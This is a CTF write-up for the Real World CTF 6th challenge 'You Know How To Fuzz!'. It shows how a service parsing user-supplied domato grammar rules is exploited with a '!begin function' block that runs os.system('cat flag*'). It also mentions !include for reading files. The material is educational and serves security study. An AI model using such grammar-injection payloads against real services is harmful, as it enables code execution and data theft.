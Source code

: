 ```yaml
---
title: 'Real World CTF 6th'
challenge: 'You Know How To Fuzz!'
date: 2024-01-28T00:00:00+01:00
author: 'v0lp3'
description: 'Writeup for the Real World CTF 6th challenge "YouKnowHowToFuzz!"' 
cover: '/img/RealWorldCTF_6th/logo.png'
tags: ['misc']
draft: false
---
```


```
I like eat domato, it's excellent for dom fuzz, try to use your rule!

nc 47.251.60.74 9999
```

### Quick look

The challenge attachment includes a Dockerfile that builds a container containing the DOM fuzzer [domato](https://github.com/googleprojectzero/domato)

```Dockerfile
FROM ubuntu:22.04 AS base

RUN apt-get clean && \
    apt-get update && \
    apt-get install -qy git && \
    git clone https://github.com/googleprojectzero/domato /domato

# [...]
```

Then, the container was configured to execute the following script:

```python
#!/usr/local/bin/python3
from grammar import Grammar

print("define your own rule >> ")
your_rule = ""
while True:
    line = input()
    if line == "<EOF>":
        break
    your_rule += line + "\n"

rwctf_grammar = Grammar()
err = rwctf_grammar.parse_from_string(your_rule)

if err > 0:
    print("Grammer Parse Error")
    exit(-1)

rwctf_result = rwctf_grammar._generate_code(10)
with open("/domato/rwctf/template.html", "r") as f:
    template = f.read()

rwctf_result = template.replace("<rwctf>", rwctf_result)

print("your result >> ")
print(rwctf_result)
```

One detail catch my attention in the Dockerfile:

```Dockerfile
# [...]

COPY flag /flag

RUN mkdir /srv/app && \
    mv /flag /srv/app/flag_$(md5sum /flag | awk '{print $1}')

```

This implies that the flag is initially copied to the `/` directory and then renamed with an unpredictable name. Does this suggest that **Remote Code Execution** (*RCE*) is required?

### Vulnerability

Based on the challenge description and the provided code, it became evident that we needed to craft a valid rule in **domato**. My strategy was to refer to the fuzzer's documentation. There, I discovered two approach:

- Use `!include`: This expression allows the reading of arbitrary files and is triggered by the verbose error `Error parsing line: {line of the file}`.
- Use `!begin function`: This expression enables the inclusion of Python code but requires a valid rule.

Leveraging the documentation examples, I successfully created a valid rule. It's worth noting that the **Local File Inclusion** (*LFI*) approach proved futile as we lacked information about the flag's name, which was intentionally made unguessable.

```
!begin function pwn
  import os
  os.system("cat flag*")
  ret_val = "pwned"
!end function

!begin lines
<new naslab> = <call function=pwn>
!end lines
```

The result of the **system** function call will be printed to **stdout**, and we will obtain the flag.

> rwctf{it_is_a_boring_chall_about_domato_rce_20240126rwctf}
